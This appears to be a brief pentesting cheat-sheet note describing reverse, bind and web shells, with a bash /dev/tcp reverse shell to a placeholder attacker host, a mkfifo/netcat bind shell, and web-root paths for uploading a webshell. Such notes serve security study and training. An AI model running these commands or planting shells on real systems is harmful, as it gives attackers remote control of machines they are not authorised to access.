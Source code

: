 - There are three general types of shells: reverse shell, bind shell, and web shell.

- Reverse shell example: `nc -lnvp PORT_NUMBER` on attacker and then `bash -c ‘bash -i >& /dev/tcp/attacker_ip/port 0>&1’`

- Bind shell example: `rm /tmp/f;mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1|nc -lvp 1234 >/tmp/f` and then connecting from the attacker side.

- Webshell upload a vulnerable .php file to the host folder (depends on the web server version).
	Apache = /var/www/html
	Nginx = /usr/local/nginx/html/
	IIS = [C:/inetpub/wwwroot/](/C:/inetpub/wwwroot/)
	XAMPP = [C:/xampp/htdocs/](/C:/xampp/htdocs/)